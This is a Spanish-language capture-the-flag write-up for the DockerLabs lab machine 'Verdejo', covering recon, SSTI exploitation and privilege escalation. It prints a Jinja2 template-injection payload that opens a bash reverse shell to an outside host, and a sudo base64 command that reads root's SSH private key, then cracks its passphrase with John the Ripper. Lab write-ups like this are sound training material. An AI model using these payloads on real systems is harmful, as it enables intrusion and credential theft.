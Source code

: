 ```yaml
---
title: Verdejo - DockerLabs
published: 2024-10-25
description: 'Nos encontraremos con una página web vulnerable a SSTI (Server Side Template Injection) y mediante (root) NOPASSWD: /usr/bin/base64 podremos leer la clave de ssh id_rsa del usuario root. Haremos uso de ssh2john para extraer el hash y con John The Ripper podremos crackear y obtener la clave que nos permitirá acceder como root al sistema.'
image: '../../../assets/DockerLabs/Verdejo/verdejo.jpeg'
tags: [WriteUp, DockerLabs]
category: 'WriteUp'
draft: false 
---
```


## Introduction 

En este WriteUp, abordaremos la máquina Verdejo de la plataforma **[DockerLabs](https://dockerlabs.es/)**, máquina creada por **[TheHackersLabs](https://thehackerslabs.com/)**. Nos encontraremos con una página web vulnerable a SSTI (Server Side Template Injection) y mediante (root) NOPASSWD: /usr/bin/base64 podremos leer la clave de ssh id_rsa del usuario root. Haremos uso de ssh2john para extraer el hash y con John The Ripper podremos crackear y obtener la clave que nos permitirá acceder como root al sistema.

```json
Platform: DockerLabs
Level: Easy
OS: Linux
```

## Reconnaissance

~~~
Target: 172.17.0.2
~~~

Inicialmente, usamos el comando **Ping**. Este utiliza el **ICMP (Protocolo de Control de Mensajes de Internet)**. **Ping** envía un mensaje de “echo request” a una **dirección IP** y espera recibir un mensaje de “echo response” en respuesta. Este proceso nos permite verificar si una máquina en la red es accesible y medir la latencia. Podemos inferir que es una máquina **Linux** debido a que el **ttl = 64**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-1.png)

## Scanning 

Como vemos, el paquete fue recibido por la máquina victima. Una vez verificada la conexión, empezamos a realizar un escaneo de multiples etapas con la herramienta **Nmap**. Primero, haremos un escaneo de puertos abiertos.

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-2.png)

Vemos que tenemos los puertos **22/SSH**, **80/HTTP** y **8089/unknown**. Procedemos a hacer un escaneo más detallado de los mismos con el fin de obtener más información. Esto lo haremos con la flag `-sCV`

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-3.png)

## Enumeration

**22/SSH**
El puerto 22 ejecuta el servicio SSH versión **OpenSSH 9.2p1**. De momento no tenemos ninguna vulnerabilidad que aprovechar para esta versión.

**80/HTTP**
El puerto 80 ejecuta un servidor web **Apache/2.4.59**. Por lo visto es la página default de Apache.

**8089/Unknown**
Por lo visto el puerto 8089 ejecuta lo que es la página web por lo cual podemos inferir que para acceder a ella necesitamos indicar el puerto. Vemos que útiliza **Werkzeug/2.2.2** y **Python/3.11.2** 

Al acceder al sitio efectivamente nos lleva a la página web default de Apache.

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-4.png)

Al hacer **Web fuzzing** utilizando **Gobuster** en busca de archivos y directorios ocultos no encontramos nada interesante.

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-5.png)

Haremos uso de **whatweb** para obtener más información acerca del sitio web está vez indicando el puerto **:8089** 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-6.png)

Como vemos nos índica que es accesible y al ingresar notamos un formulario.

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-7.png)

Al enviar la palabra "Hola" notamos que la representa en el **DOM (Document Object Model)**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-8.png)

Intentamos ver si es vulnerable a **XSS (Cross-Site Scripting)** vulnerabilidad que permite a un atacante inyectar scripts maliciosos en páginas web. Ingresamos código JavaScript para ver como reacciona la página. 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-9.png)

Como vemos el servidor refleja la respuesta por lo que estamos ante **XSS Reflected (Reflejado)** 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-10.png)

Como no podemos obtener de manera directa **RCE (Remote Code Execution)** intentaremos **SSTI (Server-Side Template Injection)**, una vulnerabilidad que permite inyectar código en plantillas del lado del servidor. En primer lugar comprobaremos si es vulnerable indicando `{{7x7}}` y en caso de que responda de manera correcta el resultado de la multiplicación estariamos la vulnerabilidad **SSTI**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-11.png)

Como vemos, respondió **49** por lo efectivamente estamos ante **SSTI (Server-Side Template Injection)**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-12.png)

## Exploitation

Al leer acerca de está vunerabilidad en **[Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)** me centro más que nada en la sección de **Payloads de Python** debido a que, recordemos, el servidor web ejecutaba **Python/3.11.2**: Me encuentro está sección interesante que menciona **RCE (Remote Command Execution)**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-13.png)

Escribo el **Payload** de **Jinja2 (Un motor de plantillas con todas las funciones para Python)** en el formulario para ver si es efectivo 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-14.png)

Resulta que si, es vulnerable al payload de **Jinja2 (Python)** por lo que podemos inferir que ejecuta este motor de plantillas. 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-15.png)

Como podemos ejecutar comandos arbitrarios, podriamos hacer uso de una **reverse shell** y obtener **RCE**. El payload que usaremos es: 

~~~jinja2
{{ cycler.__init__.__globals__.os.popen("/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.10/1717 0>&1'").read() }} 
~~~

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-16.png)

Luego de pondremos en escucha mediante **Netcat** en el puerto **1717** y al enviar el payload obtenemos acceso. Como vemos somos el usuario: **verde**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-17.png)

Realizamos el **tratamiento de la tty** para no tener ningún problema o inconveniente innecesario a la hora de usar la términal luego de la reverse shell.

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-18.png)

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-19.png)

## Privilege Escalation

Ejecutamos el comando `sudo -l` para listar los permisos **sudo** del usuario actual y como vemos nos indica que el usuario verde puede ejecutar el siguiente comando como super usuario sin la necesidad de contraseña: **(root) NOPASSWD: /usr/bin/base64

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-20.png)

Según **[GTFObins](https://gtfobins.github.io)** el binario nos permite acceder a archivos del sistema como super usuario. 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-21.png)

- **`sudo base64 <FILE TO READ>`**: Este comando toma un archivo (reemplaza `<FILE TO READ>` con la ruta del archivo) y lo codifica en formato base64. Usar `sudo` permite ejecutar el comando con privilegios de superusuario, lo que puede ser necesario si el archivo requiere permisos especiales para ser leído.
    
- **`| base64 --decode`**: El operador `|` (pipe) toma la salida del primer comando (la representación base64 del archivo) y la pasa como entrada al segundo comando. `base64 --decode` decodifica esa representación base64 de vuelta a su forma original.

Intentaremos acceder a la **id_rsa** de **root** aprovechando el comando:

~~~
sudo /usr/bin/base64 /root/.ssh/id_rsa | base64 --decode
~~~

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-22.png)

Como vemos tenemos la **clave privada** con lo cual podriamos acceder. Crearemos un archivo llamado **id_rsa** con el contenido de la **clave privada** en nuestra máquina local y le daremos permisos con `chmod 600 id_rsa` 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-23.png)

Al intentar ingresar al **SSH** del usuario **root** nos pide la key de la **id_rsa** por lo que necesitamos extraer el **hash** de la misma.

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-24.png)

Extraemos el **hash** de la **id_rsa** con la herramienta **ssh2john**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-25.png)

Con **JohnTheRipper** crackeamos el hash para obtener la key de la **id_rsa** y vemos que es: **honda1**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-26.png)

Ahora al intentarlo nuevamente y escribir la **key** de la **id_rsa** vemos que ingresamos correctamente. 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-27.png)

Con **whoami && id** vemos que somos **root** por lo que tenemos control total del sitema y por lo tanto hemos finalizado la máquina.

<br>